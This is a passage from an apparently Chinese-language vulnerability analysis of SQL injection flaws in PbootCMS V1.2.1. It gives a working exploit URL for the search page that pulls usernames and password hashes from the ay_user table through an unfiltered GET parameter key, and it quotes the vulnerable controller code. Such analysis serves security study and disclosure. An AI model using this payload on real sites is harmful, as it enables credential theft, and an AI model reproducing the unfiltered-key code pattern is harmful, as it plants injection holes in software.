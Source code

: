 这里就将重要的方法分析一下了，其他无关的就删除掉避免影响阅读。
这里接收了外部了外部所有的get参数然后判断了开头的前4个字符是否 ext\_
开头，如果符合就直接拼接进入\$where2这个数组
然后带入数据库进行getList方法与getSpecifyList查询，而底层是字符串拼接，过滤了value没有过滤key所以有注入

0x08.4 前台搜索框注入
---------------------

### 0x08.4.1 漏洞利用

    url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Search/index?keyword=aaaa&updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123

![](./resource/PbootCMSsql注入/media/rId41.png)

### 0x08.4.2 漏洞讲解

文件地址：PbootCMS-V1.2.1\\apps\\home\\controller\\SearchController.php
方法：index()

    // 骚操作 注入
        // parserSearchLabel
        public function index()
        {
            $content = parent::parser('search.html'); // 框架标签解析
            $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
            $content = $this->parser->parserPositionLabel($content, 0, '搜索', url('/home/Search/index')); // CMS当前位置标签解析
            $content = $this->parser->parserSpecialPageSortLabel($content, 0, '搜索结果', url('/home/Search/index')); // 解析分类标签
            $content = $this->parser->parserSearchLabel($content); // 搜索结果标签
            $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
            $this->cache($content, true);
        }

文件地址：apps\\home\\controller\\ParserController.php
方法：parserSearchLabel(

    进入以后 查看调用了 $content = $this->parser->parserSearchLabel($content);  方法
    // 解析内容搜索结果标签
    public function parserSearchLabel($content)
    {
      ...
      foreach ($_GET as $key => $value) {
        if (! ! $value = get($key, 'vars')) {
          $where2[$key] = $value;
        }
      }
      ...
      // 读取数据
      if (! $data = $this->model->getList($scode, $num, $order, $where1, $where2, $fuzzy)) {
        $content = str_replace($matches[0][$i], '', $content);
        continue;
      }
    }
